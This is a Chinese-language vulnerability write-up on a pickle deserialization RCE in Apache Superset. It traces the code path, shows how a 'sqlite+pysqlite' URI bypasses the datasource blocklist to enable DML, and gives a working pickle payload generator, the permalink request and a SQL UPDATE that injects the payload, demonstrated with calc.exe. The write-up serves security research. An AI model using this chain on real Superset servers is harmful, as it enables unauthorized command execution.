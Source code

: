 前几天看到有公众号发布了Apache Superset的命令执行漏洞，涉及到python的反序列化，正好今天分析一下漏洞点的发现和漏洞利用过程

0x01 前置知识-python反序列化
====================

在python中，模块 [`pickle`](https://docs.python.org/zh-cn/3/library/pickle.html#module-pickle) 实现了对一个 Python 对象结构的二进制序列化和反序列化。和其他语言的反序列化一样，python里的 `pickle` 模块 **并不安全**。 你只应该对你信任的数据进行 unpickle 操作。构建恶意的 pickle 数据来**在解封时执行任意代码**是可能的。 绝对不要对不信任来源的数据和可能被篡改过的数据进行解封。（官方文档）

首先要说说`__reduce__()`这个魔术方法，这个方法用来表明**类的对象应当如何序列化**，当对象被Pickle(反序列化)时就会被调用。（和php中的`__wakeup()`类似）

`__reduce__()`方法不带任何参数，并且应返回字符串或最好返回一个**元组**（返回的对象通常称为“reduce 值”）。如果返回的是元组，则应当包含 2 到 6 个元素，这里主要关注前两个元素，

- 第一个元素代表一个**可调用对象**，该对象会在创建对象的最初版本时调用。
- 第二个元素代表可**调用对象的参数**，是一个元组。如果可调用对象不接受参数，必须提供一个空元组。

举个例子：

```python
import pickle
import os

class Student(object):
    name = 'xxx'
    age = '20'
    def __reduce__(self):
        cmd = "calc.exe"
        return os.system, (cmd,)

y = pickle.dumps(Student())
print(y)
pickle.loads(y)
```

![image-20230914145251743](https://shs3.b.qianxin.com/butian_public/f86684181277f2dc4643fdb8da1668214774e5ceccd91.jpg)

0x02 漏洞点发现
==========

首先全局搜索`pickle.loads`，该函数就是反序列化的地方，如果该参数可控，就可以造成远程命令执行

![image-20230918112303726](https://shs3.b.qianxin.com/butian_public/f988230129bdadb95877fbb55c8e81c53f5f4c83db7b3.jpg)

可以看到如果调用了`GetKeyValueCommand`中的`run`方法就会调用`get`，最后反序列化`entry.value`的内容进行反序列化，在`get`方法中是从数据库的`key_value`表中筛选`resource`和`key`值所得到的`value`值，写成sql语句的话类这样：

```php
select value from key_value where resource=xxx and key=xxx
```

那么就寻找哪里实例化了`GetKeyValueCommand`类并调用了`run`方法，并且传入的参数还是可控的

![image-20230918113106089](https://shs3.b.qianxin.com/butian_public/f161308b6f238b453cd3aff8d3bf2d4afb8d77d3f83c3.jpg)

经过筛查找到这样一处位置，传递的两个参数中`self.resource`是常量，值为`dashboard_permalink`，key为传递给`GetDashboardPermalinkCommand`的参数

![image-20230913183449039](https://shs3.b.qianxin.com/butian_public/f2017803cbfc9d9305330f9c1e9391f1e846427da71e3.jpg)

我们如法炮制找到实例化`GetDashboardPermalinkCommand`的地方，并且发现了触发这一条链的路由：`/dashboard/p/<key>/`

![image-20230918151952438](https://shs3.b.qianxin.com/butian_public/f24970474293dd66e6206f9b36cb1a67daf97e549a890.jpg)

既然这个功能是从数据库中取数据，那大概率有一个功能点是往数据库中写数据的地方，并且返回一个这样的路径，于是我们全局查找代码中出现`/dashboard/p/`的地方:

通过搜索找到这样一处，代码逻辑流程是访问`<pk>/permalink`路径，然后将pk参数和post传入的json合并后通过`CreateDashboardPermalinkCommand`生成key，最后拼接成上面的链接

![image-20230918152333524](https://shs3.b.qianxin.com/butian_public/f978329f04cd16165191a295d9562fb2932947baa6cc5.jpg)

通过查看注释可以知道这是一个保存固定链接（permanent link）的功能点

![image-20230920105114587](https://shs3.b.qianxin.com/butian_public/f60762432e2a57e98155dc4984fe2e649b641a0c8c6ea.jpg)

pk为当前dashboard的id，通过`CreateDashboardPermalinkCommand`的`run`方法获取固定链接的key值，我们继续更近run方法：

![image-20230913182630311](https://shs3.b.qianxin.com/butian_public/f191880206be19b6d9594d1930208f7573443feabf323.jpg)

这里的value将`dashboardId`和`state`合并后，传入到下面的`UpsertKeyValueCommand`方法中，其中的key值时通过user\_id和value生成的uuid值，resource为`dashboard_permalink`

然后进入`UpsertKeyValueCommand`的run方法中，调用了`upsert`，然后其中会将value的值通过`pickle.dumps`序列化后存入数据库

![image-20230913182524476](https://shs3.b.qianxin.com/butian_public/f222039be2b00ab876b342152e522bee0d5fb404f6b8d.jpg)

然后通过key.id和salt生成一个固定链接

![image-20230913184718553](https://shs3.b.qianxin.com/butian_public/f524966956e6e4d6115a53734c4324cee5c4405f3caa5.jpg)

我们获取到这样一个固定链接:

```php
http://127.0.0.1:5000/superset/dashboard/p/x2WRlLjzXrB/
```

所以我们的攻击路径就是首选获取一个固定链接，在生成固定链接的同时会将数据写入到数据库，然后我们通过修改数据库中的内容为payload，在访问固定链接的时候会取数据库中的数据进行反序列化，进而造成RCE

0x03 漏洞利用
=========

点击右上角`···`-`Share`-`Copy permailink to clipboard`

![image-20230913174540088](https://shs3.b.qianxin.com/butian_public/f124936ad509376857b3457d4b9d18aa554438203c174.jpg)

它会发送一个以下请求包生成一个当前页面的固定链接

```php
POST /api/v1/dashboard/2/permalink HTTP/1.1
Host: 127.0.0.1:5000
Connection: close

{"urlParams":[],"dataMask":{},"activeTabs":[]}
```

![image-20230913175211295](https://shs3.b.qianxin.com/butian_public/f894608d19a6f6851f0d1f2f828f834f8725b2a8abb09.jpg)

我们获取到这样一个固定链接:

```php
http://127.0.0.1:5000/superset/dashboard/p/x2WRlLjzXrB/
```

所以我们如果要想在这里进行反序列化就需要修改数据库中`key_value`表中`dashboard_permalink`值，正好有一个功能SQL Lab可以执行sql语句，那么我们就可以通过update修改`dashboard_permalink`值为payload，然后打开固定链接就可以触发`pickle.loads`进行反序列化，从而导致RCE

![image-20230913185403759](https://shs3.b.qianxin.com/butian_public/f484374cfbcb5c32207784dabf9bd25f94e98e967a3d9.jpg)

但是不巧的是，这里执行的SQL语句只能执行SELECT

![image-20230913185633970](https://shs3.b.qianxin.com/butian_public/f23583572c47700a46ef45b7d3805977cd58c75c654c3.jpg)

而且在配置数据库的地方勾选`Allow DML`会提示`SQLiteDialect_pysqlite cannot be used as a data source for security reasons.`无法保存

![image-20230913185724113](https://shs3.b.qianxin.com/butian_public/f8322465001e587bc290cfcae6ce567a9edb25b935ab3.jpg)

于是我们可以重新添加一个数据源也为sqlite，然后将源指向同一个数据库，并且打开`Allow DML`，但是直接添加也会报错，因为`sqlite`在`uri.drivername`的黑名单里

![image-20230914110528216](https://shs3.b.qianxin.com/butian_public/f364176b9c183927d9a5b069bfc5f95bff2211ac20857.jpg)

但是依然可以通过方言和驱动程序名称的完整SQLAlchemy URI来绕过，pysqlite驱动程序支持SQLite数据库，例如：`sqlite+pysqlite:///D:/superset_2.1.0/superset.db`

> SQL方言（或者数据库方言）指的是用于访问数据库的结构化查询语言的变体，根据具体的数据库系统不同，也可能会支持不同的方言。简单而言，某种DBMS不只会支持SQL标准，而且还会有一些自己独有的语法。

![image-20230914110626354](https://shs3.b.qianxin.com/butian_public/f13016385c221aaadadf72fe50c482a424d89a7376a97.jpg)

之后在生成固定链接后就可以去Sql Lab去update修改`dashboard_permalink`值

以弹出计算器作为演示，将RCE类序列化后转换为hex输出

```python
import pickle
import os
from binascii import hexlify

class RCE:
    def __reduce__(self):
        return os.system, ('calc.exe',)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(hexlify(pickled).decode())

```

然后执行sq语句：

```sql
update key_value set value=X'636e740a73797374656d0a70300a285663616c632e6578650a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

![image-20230914140854110](https://shs3.b.qianxin.com/butian_public/f8145122cb595623908ad3e938751198c3c4e447698e3.jpg)

在数据库中也被成功修改

![image-20230914112822038](https://shs3.b.qianxin.com/butian_public/f339089a50404c1f0e6f8acce8ba8f758fb322d999248.jpg)

然后访问固定链接也可成功弹出计算器

![image-20230914113252332](https://shs3.b.qianxin.com/butian_public/f244007b2395558e6bbb0365214f18ff8f7f780b294a0.jpg)

0x04 总结
=======

整个攻击路径就是首先通过`sqlite+pysqlite://`来添加当前数据库并开启DML使其能允许使用非 SELECT 语句（例如 UPDATE、DELETE、CREATE 等）操作数据库，然后生成一个固定链接，然后通过sql语句的update更新`dashboard_permalink`的值，然后在访问该链接后，在获取value时会触发`pickle.loads()`方法去反序列化`dashboard_permalink`的值，而这里的value值已经在上一步中通过sql语句将其替换成了payload，最终造成任意命令执行，